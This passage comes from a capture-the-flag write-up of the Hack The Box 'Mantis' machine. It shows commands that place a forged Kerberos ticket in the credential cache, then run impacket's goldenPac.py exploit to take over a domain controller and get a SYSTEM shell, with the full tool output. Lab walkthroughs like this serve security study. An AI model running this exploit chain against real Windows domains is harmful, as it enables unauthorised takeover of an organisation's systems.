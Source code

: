 By default, any user's ticket-granting-ticket (TGT) used on the client side is read from the default Kerberos credential cache, which is located in `/tmp/krb5cc_uid`. So now that we have our cache file we need to copy it to the proper location.

```
root@kali:~/htb/mantis/pykek-master# cp TGT_james@HTB.LOCAL.ccache /tmp/krb5cc_0
```

With everything in place we can use the `goldenPAC.py` tool from impacket to get us our shell.

```
root@kali:~/htb/mantis/impacket-master/impacket-master/examples# ./goldenPac.py HTB.LOCAL/james@mantis
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file cugfXzCt.exe
[*] Opening SVCManager on mantis.....
[*] Creating service QcYY on mantis.....
[*] Starting service QcYY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami & hostname
nt authority\system
mantis
```

And we have our `SYSTEM` shell! From here we can grab both `user.txt` and `root.txt`.